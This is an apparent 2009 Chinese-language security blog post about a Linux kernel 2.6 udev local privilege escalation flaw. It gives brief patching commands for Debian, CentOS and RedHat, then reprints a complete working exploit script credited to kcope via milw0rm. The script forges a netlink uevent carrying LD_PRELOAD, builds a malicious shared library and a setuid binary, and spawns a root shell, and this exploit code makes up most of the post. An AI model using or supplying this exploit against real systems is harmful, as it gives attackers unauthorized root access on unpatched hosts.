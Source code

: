 ```yaml
---
title: Linux本地提权漏洞Linux Kernel 2.6 UDEV Local Privilege Escalation Exploit
description: Linux本地提权漏洞，对RHEL5.Xx86和x64和Debian4.x5.xx86和x64很有效，速度更新udev吧Linux的udev程序再爆本地提权漏洞，本地用户可以轻易获得root权限，请立即更新udev程序。（2.4内核系统不受影响）修复方法(修复前请备份重要数据)：debian用户请执行apt-getupdate;apt-getupgrade-ycentos用户请执行yumupdateudevRedHat用户请使用官方rpm包更新或者购买RedHat的satellite服务。Linux本地提权漏洞LinuxKernel2.6UDEVLocalPrivilegeEscalationExploit：......
date: 2009-04-25 10:31:59
category: 漏洞信息
tags: ['漏洞信息', 'Linux', 'exploit']
post_id: 841
alias: Linux-Kernel-2.6-UDEV-Local-Privilege-Escalation-Exploit
ViewNums: 4818
---
```


[Linux本地提权漏洞](/blog/linux-kernel-26-udev-local-privilege-escalation-exploit)，对 RHEL 5.X x86和x64 和 Debian 4.x 5.x x86和x64很有效，速度更新udev吧

[Linux的udev程序再爆本地提权漏洞](/blog/linux-kernel-26-udev-local-privilege-escalation-exploit)，本地用户可以轻易获得root权限，请立即更新udev程序。（2.4内核系统不受影响）
修复方法(**修复前请备份重要数据**)：

debian用户请执行apt-get update ; apt-get upgrade -y

centos用户请执行yum update udev

RedHat用户请使用官方rpm包更新或者购买RedHat的satellite服务。

[Linux本地提权漏洞Linux Kernel 2.6 UDEV Local Privilege Escalation Exploit](/blog/linux-kernel-26-udev-local-privilege-escalation-exploit)：

```
#!/bin/sh
# Linux 2.6
# bug found by Sebastian Krahmer
#
# lame sploit using LD technique
# by kcope in 2009
# tested on debian-etch,ubuntu,gentoo
# do a 'cat /proc/net/netlink'
# and set the first arg to this
# script to the pid of the netlink socket
# (the pid is udevd_pid - 1 most of the time)
# + sploit has to be UNIX formatted text :)
# + if it doesn't work the 1st time try more often
#
# WARNING: maybe needs some FIXUP to work flawlessly
## greetz fly out to alex,andi,adize,wY!,revo,j! and the gang

cat > udev.c << _EOF
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <dirent.h>
#include <sys/stat.h>
#include <sysexits.h>
#include <wait.h>
#include <signal.h>
#include <sys/socket.h>
#include <linux/types.h>
#include <linux/netlink.h>

#ifndef NETLINK_KOBJECT_UEVENT
#define NETLINK_KOBJECT_UEVENT 15
#endif

#define SHORT_STRING 64
#define MEDIUM_STRING 128
#define BIG_STRING 256
#define LONG_STRING 1024
#define EXTRALONG_STRING 4096
#define TRUE 1
#define FALSE 0

int socket_fd;
struct sockaddr_nl address;
struct msghdr msg;
struct iovec iovector;
int sz = 64*1024;

main(int argc, char **argv) {
        char sysfspath[SHORT_STRING];
        char subsystem[SHORT_STRING];
        char event[SHORT_STRING];
        char major[SHORT_STRING];
        char minor[SHORT_STRING];

        sprintf(event, "add");
        sprintf(subsystem, "block");
        sprintf(sysfspath, "/dev/foo");
        sprintf(major, "8");
        sprintf(minor, "1");

        memset(&address, 0, sizeof(address));
        address.nl_family = AF_NETLINK;
        address.nl_pid = atoi(argv[1]);
        address.nl_groups = 0;

        msg.msg_name = (void*)&address;
        msg.msg_namelen = sizeof(address);
        msg.msg_iov = &iovector;
        msg.msg_iovlen = 1;

        socket_fd = socket(AF_NETLINK, SOCK_DGRAM, NETLINK_KOBJECT_UEVENT);
        bind(socket_fd, (struct sockaddr *) &address, sizeof(address));

        char message[LONG_STRING];
        char *mp;

        mp = message;
        mp += sprintf(mp, "%s@%s", event, sysfspath) +1;
        mp += sprintf(mp, "ACTION=%s", event) +1;
        mp += sprintf(mp, "DEVPATH=%s", sysfspath) +1;
        mp += sprintf(mp, "MAJOR=%s", major) +1;
        mp += sprintf(mp, "MINOR=%s", minor) +1;
        mp += sprintf(mp, "SUBSYSTEM=%s", subsystem) +1;
        mp += sprintf(mp, "LD_PRELOAD=/tmp/libno_ex.so.1.0") +1;

        iovector.iov_base = (void*)message;
        iovector.iov_len = (int)(mp-message);

        char *buf;
        int buflen;
        buf = (char *) &msg;
        buflen = (int)(mp-message);

        sendmsg(socket_fd, &msg, 0);

        close(socket_fd);

 sleep(10);
 execl("/tmp/suid", "suid", (void*)0);
}

_EOF
gcc udev.c -o /tmp/udev
cat > program.c << _EOF
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init()
{
 setgid(0);
 setuid(0);
 unsetenv("LD_PRELOAD");
 execl("/bin/sh","sh","-c","chown root:root /tmp/suid; chmod +s /tmp/suid",NULL);
}

_EOF
gcc -o program.o -c program.c -fPIC
gcc -shared -Wl,-soname,libno_ex.so.1 -o libno_ex.so.1.0 program.o -nostartfiles
cat > suid.c << _EOF
int main(void) {
       setgid(0); setuid(0);
       execl("/bin/sh","sh",0); }
_EOF
gcc -o /tmp/suid suid.c
cp libno_ex.so.1.0 /tmp/libno_ex.so.1.0
/tmp/udev $1
```

# [milw0rm.com](http://www.milw0rm.com/exploits/8478) [2009-04-20]

